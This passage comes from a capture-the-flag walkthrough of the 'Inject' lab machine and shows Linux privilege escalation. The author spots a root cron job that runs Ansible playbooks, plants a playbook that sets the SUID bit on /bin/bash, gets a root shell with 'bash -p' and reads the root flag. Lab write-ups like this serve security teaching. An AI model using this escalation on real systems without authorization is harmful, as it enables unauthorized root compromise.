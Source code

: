 ```
2023/07/09 14:42:10 CMD: UID=0     PID=70598  | /bin/sh -c /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1688913728.344112-70575-115364851993038/AnsiballZ_systemd.py && sleep 0
2023/07/09 14:42:10 CMD: UID=0     PID=70599  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/07/09 14:42:11 CMD: UID=0     PID=70600  | /bin/sh -c rm -f -r /root/.ansible/tmp/ansible-tmp-1688913728.344112-70575-115364851993038/ > /dev/null 2>&1 && sleep 0
```
> We could create our own script for the same purpose like [`procmon.sh`](./exploits/procmon.sh)

The output reveals that there's a cron job running for the root user. Indeed, the root deletes all files in `/opt/automation/tasks/*`, then it copies a script named `playbook_1.yml` from its home directory to the `/opt/automation/tasks/*` directory, and finally, it executes all the scripts in the directory!


Before proceeding, let's look up `ansible` on the internet and check the [`playbook_1.yml`](./content/playbook_1.yml) format
```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

According to the Ansible documentation, we can run commands! So, let's create an [```exploit.yml```](./exploits/exploit.yml) !
```
 hosts: localhost
 tasks:
 - name: Checking webapp service
   ansible.builtin.shell: chmod u+s /bin/bash
```
> This script will assign SUID permission to the shell, enabling us to gain root access!

Once the file is created in the `/opt/automation/tasks` directory, check periodically to see if the SUID privilege is set up in the bash by using:
```
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Within 10 seconds (approx), we should see this
```
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Now, let's get root access!
```
phil@inject:/opt/automation/tasks$ /bin/bash -p
bash-5.0# whoami
root
```

Finally, after gaining root access, we can check the [`root`](./root.txt) flag !
```
bash-5.0# cat /root/root.txt
f8c8c8b90b95e35c53171e4c3acc0323
```
